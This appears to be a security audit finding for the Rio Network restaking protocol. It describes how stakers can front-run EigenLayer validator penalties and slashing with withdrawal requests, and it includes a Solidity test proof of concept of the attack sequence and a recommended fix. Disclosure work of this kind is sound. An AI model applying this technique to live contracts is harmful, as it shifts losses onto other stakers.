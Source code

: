 Rural Tweed Lemur

medium

# Stakers can avoid validator penalties

## Summary
Stakers can frontrun validators penalties and slashing events with a withdrawal request in order to avoid the loss, this is possible if the deposit pool has enough liquidity available.

## Vulnerability Detail
Validators can lose part of their deposit via [penalties](https://eth2book.info/capella/part2/incentives/penalties/) or [slashing](https://eth2book.info/capella/part2/incentives/slashing/) events:
- In case of penalties Eigenlayer can be notified of the balance drop via the permissionless function 
[EigenPod::verifyBalanceUpdates()](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/EigenPod.sol#L185). 
- In case of slashing the validator is forced to exit and Eigenlayer can be notified via the permissionless function [EigenPod::verifyAndProcessWithdrawals()](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/EigenPod.sol#L232) because the slashing event is effectively a full withdrawal.

As soon as either [EigenPod::verifyBalanceUpdates()](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/EigenPod.sol#L185) or [EigenPod::verifyAndProcessWithdrawals()](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/EigenPod.sol#L232) is called the TVL of the Rio protocol drops instantly. This is because both of the functions update the variable [`podOwnerShares[podOwner]`](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/EigenPodManager.sol#L120):
- [EigenPod::verifyBalanceUpdates()](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/EigenPod.sol#L185) will update the variable [here](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/EigenPod.sol#L220)
- [EigenPod::verifyAndProcessWithdrawals()](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/EigenPod.sol#L232) will update the variable [here](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/EigenPod.sol#L275)

This makes it possible for stakers to:
1. Request a withdrawal via [RioLRTCoordinator::rebalance()](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L99) for all the `LRTTokens` held.
2. Call either [EigenPod::verifyBalanceUpdates()](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/EigenPod.sol#L185) or [EigenPod::verifyAndProcessWithdrawals()](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/EigenPod.sol#L232).

At this point when [RioLRTCoordinator::rebalance()](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L121) will be called and a withdrawal will be queued that does not include penalties or slashing. 

It's possible to withdraw `LRTTokens` while avoiding penalties or slashing up to the amount of liquidity available in the deposit pool.

### POC
I wrote a POC whose main point is to show that requesting a withdrawal before an instant TVL drop will withdraw the full amount requested without taking the drop into account. The POC doesn't show that [EigenPod::verifyBalanceUpdates()](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/EigenPod.sol#L185) or [EigenPod::verifyAndProcessWithdrawals()](https://github.com/Layr-Labs/eigenlayer-contracts/blob/v0.2.1-goerli-m2/src/contracts/pods/EigenPod.sol#L232) actually lowers the TVL because I wasn't able to implement it in the tests.

Add imports to `RioLRTCoordinator.t.sol`:
```solidity
import {IRioLRTOperatorRegistry} from 'contracts/interfaces/IRioLRTOperatorRegistry.sol';
import {RioLRTOperatorDelegator} from 'contracts/restaking/RioLRTOperatorDelegator.sol';
import {CredentialsProofs, BeaconWithdrawal} from 'test/utils/beacon-chain/MockBeaconChain.sol';
```

then copy-paste:
```solidity
IRioLRTOperatorRegistry.StrategyShareCap[] public emptyStrategyShareCaps;
function test_avoidInstantPriceDrop() public {
    //-> Add two operators with 1 validator each
    uint8[] memory operatorIds = addOperatorDelegators(
        reETH.operatorRegistry,
        address(reETH.rewardDistributor),
        2,
        emptyStrategyShareCaps,
        1
    );
    address operatorAddress0 = address(uint160(1));

    //-> Deposit ETH so there's 74ETH in the deposit pool
    uint256 depositAmount = 2*ETH_DEPOSIT_SIZE - address(reETH.depositPool).balance;
    uint256 amountToWithdraw = 10 ether;
    reETH.coordinator.depositETH{value: amountToWithdraw + depositAmount}();

    //-> Stake the 64ETH on the validators, 32ETH each and 10 ETH stay in the deposit pool
    vm.prank(EOA, EOA);
    reETH.coordinator.rebalance(ETH_ADDRESS);

    //-> Attacker notices a validator is going receive penalties and immediately requests a withdrawal of 10ETH
    reETH.coordinator.requestWithdrawal(ETH_ADDRESS, amountToWithdraw);

    //-> Validator get some penalties and Eigenlayer notified 
    //IMPORTANT: The following block of code it's a simulation of what would happen if a validator balances gets lowered because of penalties
    //and `verifyBalanceUpdates()` gets called on Eigenlayer. It uses another bug to achieve an instant loss of TVL.

    //      ~~~Start penalties simulation~~~
    {
        //-> Verify validators credentials of the two validators
        verifyCredentialsForValidators(reETH.operatorRegistry, 1, 1);
        verifyCredentialsForValidators(reETH.operatorRegistry, 2, 1);

        //-> Cache current TVL and ETH Balance
        uint256 TVLBefore = reETH.coordinator.getTVL();

        //->Operator calls `undelegate()` on Eigenlayer
        //IMPORTANT: This achieves the same a calling `verifyBalanceUpdates()` on Eigenlayer after a validator suffered penalties,
        //an instant drop in TVL.
        IRioLRTOperatorRegistry.OperatorPublicDetails memory details = reETH.operatorRegistry.getOperatorDetails(operatorIds[0]);
        vm.prank(operatorAddress0);
        delegationManager.undelegate(details.delegator);

        //-> TVL dropped
        uint256 TVLAfter = reETH.coordinator.getTVL();

        assertLt(TVLAfter, TVLBefore);
    }
    //      ~~~End penalties simulation~~~

    //-> Rebalance gets called
    skip(reETH.coordinator.rebalanceDelay());
    vm.prank(EOA, EOA);
    reETH.coordinator.rebalance(ETH_ADDRESS);

    //-> Attacker receives all of the ETH he withdrew, avoiding the effect of penalties
    uint256 balanceBefore = address(this).balance;
    reETH.withdrawalQueue.claimWithdrawalsForEpoch(IRioLRTWithdrawalQueue.ClaimRequest({asset: ETH_ADDRESS, epoch: 0}));
    uint256 balanceAfter = address(this).balance;
    assertEq(balanceAfter - balanceBefore, amountToWithdraw);
}
```

## Impact
Stakers can avoid validator penalties and slashing events if there's enough liquidity in the deposit pool.

## Code Snippet

## Tool used

Manual Review

## Recommendation
When [RioLRTCoordinator::rebalance()](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L121) is called and penalties or slashing events happened during the epoch being settled, distribute the correct amount of penalties to all the `LRTTokens` withdrawn in the current epoch, including the ones that requested the withdrawal before the drop.
